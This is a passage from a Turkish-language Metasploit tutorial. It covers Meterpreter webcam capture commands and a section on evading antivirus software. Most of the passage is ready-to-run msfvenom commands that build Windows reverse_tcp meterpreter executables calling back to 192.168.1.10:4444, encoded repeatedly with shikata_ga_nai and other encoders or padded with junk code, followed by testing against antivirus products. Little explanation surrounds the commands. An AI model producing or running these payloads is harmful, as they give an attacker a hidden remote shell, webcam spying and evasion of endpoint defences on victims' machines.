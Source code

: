### 📱 **Webcam Kontrolü:**
```bash
# Webcam'den fotoğraf çek
webcam_snap

# Webcam listesini görüntüle
webcam_list

# Belirli webcam'den fotoğraf çek
webcam_snap -i 1
```

---

## 6️⃣ Antivirüse Yakalanmama Teknikleri 🥷

### 🔐 **Encoder Kullanma:**
Encoder'lar, payload'ı şifreleyerek antivirüs programlarının tanımasını zorlaştırır. Bu, bir mektubu şifreleyerek postacının içeriğini anlayamaması gibidir.

```bash
# Shikata Ga Nai encoder ile 5 kez şifreleme
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f exe > evaded.exe

# Farklı encoder'lar deneyin
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -e x86/call4_dword_xor -i 3 -f exe > evaded2.exe

# Çoklu encoder kullanımı
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -e x86/shikata_ga_nai,x86/call4_dword_xor -i 3 -f exe > multi_evaded.exe
```

### 🎭 **Kod Gizleme Teknikleri:**
```bash
# Sahte kod ekleme (junk code)
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe --add-code "sahte_fonksiyon()" > junked.exe

# Dosya boyutunu artırma
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe --add-data "sahte_veri.txt" > padded.exe
```

### 🧪 **Antivirüs Test Etme:**
```bash
# VirusTotal API ile test (dikkatli kullanın!)
# https://www.virustotal.com/gui/

# Yerel antivirüs ile test
# Windows Defender, ClamAV gibi
```

---